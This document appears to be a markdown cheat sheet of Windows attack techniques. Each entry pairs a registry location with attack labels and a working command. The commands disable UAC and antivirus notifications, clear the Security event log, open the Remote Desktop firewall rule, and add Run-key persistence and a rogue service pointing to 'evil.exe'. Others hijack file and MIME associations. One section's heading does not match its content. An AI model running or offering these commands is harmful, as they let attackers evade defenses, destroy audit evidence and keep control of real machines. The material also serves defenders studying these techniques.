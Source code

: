 ### Windows Firewall Control
**Registry Path:** `HKLM\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy`  
**Attacks:** Firewall Bypass, Unauthorized Access  
**Codes:** `netsh advfirewall firewall set rule group="remote desktop" new enable=Yes`

### Windows Security Center Control
**Registry Path:** `HKLM\SOFTWARE\Microsoft\Security Center`  
**Attacks:** Security Alert Suppression, Malware Execution  
**Codes:** `reg add HKLM\SOFTWARE\Microsoft\Security Center /v AntiVirusDisableNotify /t REG_DWORD /d 1`

### Windows Event Viewer Control
**Registry Path:** `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\EventViewer`  
**Attacks:** Log Manipulation, Evidence Tampering  
**Codes:** `wevtutil cl Security`

### Windows Performance Monitor Control
**Registry Path:** `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Perflib`  
**Attacks:** System Monitoring, Data Theft  
**Codes:** `logman create counter EvilMonitor -o "C:\evil.log" -f csv -v mmddhhmm -c "\Processor(_Total)\% Processor Time"`

### Windows Power Configuration Control
**Codes:** `assoc .txt=evilprogid`

### Windows Service Control

**Registry Path:** `HKLM\SYSTEM\CurrentControlSet\Services`  
**Attacks:** Service Manipulation, Privilege Escalation  
**Codes:** `sc create EvilService binPath= "C:\evil\evil.exe"`

### Windows User Account Control

**Registry Path:** `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System`  
**Attacks:** UAC Bypass, Privilege Escalation  
**Codes:** `reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0`

### Windows Autorun Control

**Registry Path:** `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`  
**Attacks:** Persistence, Malware Execution  
**Codes:** `reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v EvilApp /t REG_SZ /d "C:\evil\evil.exe"`

### Windows MIME Type Control

**Registry Path:** `HKCR\MIME\Database\Content Type`  
**Attacks:** MIME Type Hijacking, Malware Execution  
**Codes:** `reg add HKCR\MIME\Database\Content Type\application/evil /v Extension /t REG_SZ /d .evil`

